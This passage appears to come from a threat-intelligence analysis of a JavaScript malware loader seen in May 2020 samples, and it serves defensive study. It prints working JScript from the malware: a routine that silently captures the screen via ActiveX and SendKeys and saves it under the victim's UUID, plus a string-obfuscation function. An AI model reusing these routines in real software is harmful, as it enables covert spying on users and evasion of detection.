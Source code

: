 ```js
function TakeScreenshot()
{
    var oWordBasic= new ActiveXObject("Word.Basic");
    oWordBasic.SendKeys("{prtsc}");
    WScript.Sleep(2000);
    var WshShell= new ActiveXObject("WScript.Shell");
    WshShell.SendKeys("{prtsc}");
    WshShell.Run("mspaint");
    WScript.Sleep(2000);
    WScript.Sleep(1000);
    WScript.Sleep(1000);
    WshShell.AppActivate("Paint");
    WScript.Sleep(5000);
    WshShell.SendKeys("^v");
    WScript.Sleep(500);
    WshShell.SendKeys("^s");
    WScript.Sleep(500);
    WshShell.SendKeys(defaultPath+ "\\"+ clientInfo["uuid"]+ ".jpg");
    WScript.Sleep(500);
    WshShell.SendKeys("{ENTER}");
}
```

<h6>On the recent samples from May 2020 samples, we can note the transition to the recent JS loader and all have the same function (previously shown) for decrypt the data of the first layer to the second layer but with different values that indicate that generated by a tool in using the variance of a common integer base for obfuscating these payloads.</h6>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional Analysis/Unknown/2020-05-12/Pictures/comp_algo.png"></img></center>

<h6>Some versions of this script have an additional function for obfuscating the strings with different values too.</h6>

```js
var tab=(extract_strings)("aeeo1dtrsfsirn%cTtTnec/3Itoigpue%%iedrerrgtacekocsh%tine%aaiBnytiS%hgNnldn%  [...] ntlAtllai%DQp*lrWe.l%Slppto/e%2aeseroeg#f%lssk%%.lwHrbeloEeeeC\\re",118378);
function extract_strings(o,d)
{
  var lim=o.length;
  var t=[];
  for(var i=0;i< lim;i++){t[i]= o.charAt(i)};
  for(var i=0;i< lim;i++)
  {
   var a=d*(i+ 243)+(d% 39595);
   var b=d*(i+ 592)+(d% 32708);
   var c=a%lim;
   var e=b%lim;
   var s=t[c];
   t[c]=t[e];
   t[e]=s;
   d=(a+b)% 2572703;
  };
  return t.join('').split('%').join("^?").split('#1').join('%').split('#0').join('#').split("^?");
}
```

